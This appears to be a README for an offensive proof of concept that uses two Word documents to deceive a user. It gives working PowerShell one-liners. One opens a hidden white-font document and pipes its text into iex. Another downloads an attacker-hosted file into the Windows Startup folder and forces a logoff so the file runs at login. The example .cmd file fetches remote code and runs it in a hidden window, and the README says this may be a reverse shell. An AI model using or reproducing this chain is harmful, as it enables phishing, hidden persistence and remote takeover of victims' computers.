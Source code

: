 # SuspiciousWordDocuments
You have received two Microsoft Word documents. Are the links safe?

# Description
Things aren't always what they seem when it comes to links. One document contains several links to different things on the web. The other looks like another plain document.
The RealJuicyWebLinks.docx file has a link that executes a PowerShell Command contained in wordfornotes.docx. Scenario: The wordfornotes commands are a way to establish persistence by grabbing the contents of a file from a hosted webserver and it's deposited in the user's Startup folder as .cmd. The .cmd example below is made to parse a file that could contain a reverse shell. A shutdown /l command is the last step to execute the .cmd file upon login from the user.

# Remember
wordfornotes.docx is saved in white font. 

This only works on Windows 10 and not windows 11. To work properly, save both files to downloads. Add your hosted IP, directory, and file to Document1 that you wished to be parsed/saved to the startup directory.

# How to use
Link number 1 must be copied and pasted to the Window's Search Box. wordfornotes.docx cannot be opened at the same time of Window's Search Box execution. If testing, remember to kill wordfornotes.docx.

Add your IP, Directory, and filename to wordfornotes.docx. Note: commands could be encoded in base64.

Both files saved to Downloads.

If you edit RealJuicyWebLinks, the suspicious link may need to be updated as well back to the initial.

# Stages
Call the other word document
```Powershell
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c "&{$word = new-object -comobject word.application; $word.visible = $false; $doc = $word.Documents.Open(\"$env:userprofile\downloads\Document1.docx\"); $doc.Paragraphs[1].range.text | iex}"
```
Request the commands hosted on a particular site
```Powershell
start msedge `https://www.youtube.com/watch?v=uXbGQiXsRes';iwr https://<YourIP>/Direcotory/filename -o "$env:userprofile\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\StartUp.cmd"; shutdown /l
```

# Example .cmd
```batch
@echo off

powershell.exe -windowstyle hidden "(iwr https:// YOUR IP/DIRECTORY/filename -UseBasicParsing) | iex"
```
